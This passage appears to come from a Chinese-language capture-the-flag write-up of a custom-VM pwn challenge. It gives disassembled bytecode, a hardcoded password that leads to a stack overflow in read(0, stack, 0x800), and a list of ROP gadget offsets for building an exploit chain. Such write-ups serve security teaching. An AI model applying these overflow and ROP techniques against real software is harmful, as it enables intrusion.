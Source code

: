 ```
mov r2, byte 0x34
mov r3, byte 0x6
syscall data
push qword r17
mov qword r17, r16
sub r16, qword 0x100
mov qword r4, r16
mov r5, qword 0xa214f474f4721
push qword r5
mov r5, qword 0x574f4e54494e5750
push qword r5
mov qword r5, r16
mov r0, byte 0x2
mov r1, byte 0x1
mov qword r2, r16
mov r3, byte 0xf
syscall stack
mov r0, byte 0x1
mov r1, byte 0
mov qword r2, r4
mov r3, qword 0x800
syscall stack					| read(0, stack[], 0x800)
cmp r0, qword 0         
jnl 0x2
hlt
mov qword r3, r0
mov r1, byte 0x1
mov qword r2, r4
mov r0, qword 0x2
mov qword r16, r17      
pop qword r17
ret
```

于是程序就比较清晰了，如果输入了`password`为`QWQG00DR3VRW31LD0N3Try2Pwn!GOGOGOGO`就能走到最后溢出的地方

最后在`read(0, stack, 0x800)`的地方会出现溢出，然后在`ret`的时候把栈上的内容`pop`到`vm.pc`，于是就需要在`test.bin`里面找到可以用`gadgets`



### pwn

#### gadgets

在程序`RET`之后还有一大段无关的`opcode`，做到这步的时候才知道，这些就是为了凑`gadgets`的

其中标记为`R`的是不需要限制的

```python
# 0x0d 0xR6 0x00 0x11 0xRR
pop_r00_ret = 0x2f5         # 0x46
# 0x0d 0xR6 0x01 0X11 0xRR
pop_r01_ret = 0x377         # 0x46
# 0x0d 0xR6 0x02 0x11 0xRR
pop_r02_ret = 0x45c         # 0x46
# 0x0d 0xR6 0x03 0x11 0xRR
pop_r03_ret = 0x4e1         # 0x46

# 0x20 0x0a 0x11 0xRR
sys_open_ret = 0x6ed
# 0x20 0xR8 0x11 0xRR
sys_data_ret = 0x5b1
# 0x20 0xR9 0x11 0xRR
sys_stack_ret = 0x617
```
